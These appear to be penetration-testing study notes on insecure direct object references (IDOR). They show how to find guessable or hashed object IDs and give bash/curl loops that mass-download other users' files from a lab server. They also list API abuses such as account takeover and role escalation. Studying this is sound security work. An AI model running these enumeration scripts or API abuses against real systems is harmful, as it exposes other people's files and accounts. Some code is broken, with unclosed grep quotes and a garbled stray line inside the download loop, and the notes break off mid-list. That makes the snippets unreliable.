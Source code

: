 Occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects.

### Example
You upload a file and get the link to it like 
```URL
download.php?file_id=123
```
What happens if we try to download 
```URL
download.php?file_id=1234
```

## Identifying IDORs
### URL Parameters & APIs
1. Identifying Direct Object References
	* Study HTTP requests to look for URL parameters 
	* Try fuzzing applications to see if any data is returned
### AJAX Calls
* Unused parameters or APIs in the front-end code in the form of JavaScript. 
* Some web applications place all their function calls on the front-end and use appropriate ones based on the user role. 
```javascript
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```
May be able to identify AJAX calls to specific-end-points or APIs that contain direct object references. 

### Hashing / Encoding
* Some web applications may not use sequential numbers as object references, but may encode the reference or hash it. 
* These can sometimes still be exploited
* If the encode was base64 we could decode the reference, change the value and then encode again. 
* If it is being hashed in viewable source code, you may be able to replicate it
```javascript
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```
### Compare User Roles
May need to register multiple users and compare their HTTP requests and object references. This may allow us to understand how the URL parameters and unique identifiers are being calculated. 
```json
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```

## Mass IDOR Enumeration
### Insecure Parameters
Predictable paramters such as:
```url
http://website.com/file.php?uid-2
http://website.com/file.php?uid-1
```
Ensure that the UID doesn't change the file contents. Often websites are configured that the variable changes what files are being shown. 
### Mass Enumeration 
Grab the HTML source code:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
Use grep to get the correct lines
```shell
 curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>
```
Trim the extra parts off 
```shell
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf
```
For Loop
```bash
#!/bin/bash
url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
    ~' '?/    done
done
```
### Bypassing Encoded References 
Sending to a `download.php` is a common name to download files to avoid directly linking to files. 
Data may look something like this
```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
#### Function Disclosure
Many developers make mistakes of performing sensitive functions on the front-end.
```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
##### Mass Enumeration
Once the formula is worked out we can write a script and then fuzz them variables
```shell
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

### Insecure APIs
#### Identify vulnerabilities 
* Edit fields and look at the request in BurpSuite
* `PUT` requests are usually APIs
* Look for hidden parameters in the `PUT` request 
* Are their any access control features such as roles or privileges?
#### Exploiting Insecure APIs

Example exploits
1. Change UIDs to take over someone else's account
2. Change a users details to perform web attacks
3. Create new users with arbitrary details
4. Change to a more privileged role

* Testing changing to incremental numbers or high numbers
* Test with `GET` requests as well as `PUT` requests 
### Chaining IDOR Vulnerabilities 
* If you can access other peoples details through a API request you may be able to get un-calculable variables, this may allow you to repeat a `PUT` request to modify a users details.
#### Example exploits 
* Modify their email and then a password reset request.  
* XSS payload
* 